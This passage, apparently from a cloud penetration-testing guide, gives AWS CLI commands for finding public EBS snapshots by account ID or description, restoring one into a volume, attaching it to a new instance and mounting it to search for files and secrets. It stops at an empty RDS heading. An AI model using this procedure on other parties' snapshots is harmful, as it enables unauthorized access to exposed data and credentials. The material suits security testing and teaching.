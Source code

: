 ### EBS Snapshots

```bash
region=region

# Search by AWS account ID
aws ec2 describe-snapshots --owner-ids 123456789012

# Search by description
aws ec2 describe-snapshots --filter "Name=description,Values=*hackingthe.cloud*"

# Create volume from snapshot
# The availability zone must be the same as the instance we 
# will create shortly in order to attach the new volume there
aws ec2 create-volume --availability-zone $region'a' --snapshot-id snap-example1234567890

# Alternatively you can try to copy the Snapshot and
# operate with ti from there
# aws ec2 copy-snapshot --source-snapshot-id snap-example1234567890 --source-region $region

# Check if status is 'ok'
# Volume id is from the 'create-volume' API call
aws ec2 describe-volume-status --volume-id $volume_id

# Start a new EC2 instance in the same Availability Zone
# The Image Id is for an Amazon Linux image and has
# nothing to do with the public AMI from the previous section
# Create a security group that allows all inbound traffic if
# you don't already have one and use it here
aws ec2 run-instances --security-group-ids sg-example1234567890 --instance-type t2.micro --placement AvailabilityZone=$region'a' --image-id ami-example1234567890

# Attach volume to your instance and specify as device
# anything from /dev/sdf to /dev/sdp (you can use /dev/sdf)
# --instance-id is from 'run-instances' API call
aws ec2 attach-volume --volume-id $volume_id --instance-id $instance_id --device /dev/sdf

# Connect to the instance
aws ec2-instance-connect ssh --os-user root --instance-id $instance_id
# Mount the volume
# lsblk
# mount /dev/sdf1 /mnt
# Search the volume for files and secrets 

# Terminate the instance when you're done
aws ec2 terminate-instances --instance-ids $instance_id

# Delete the volume created
aws ec2 delete-volume --volume-id $volume_id
```

### RDS Snapshots

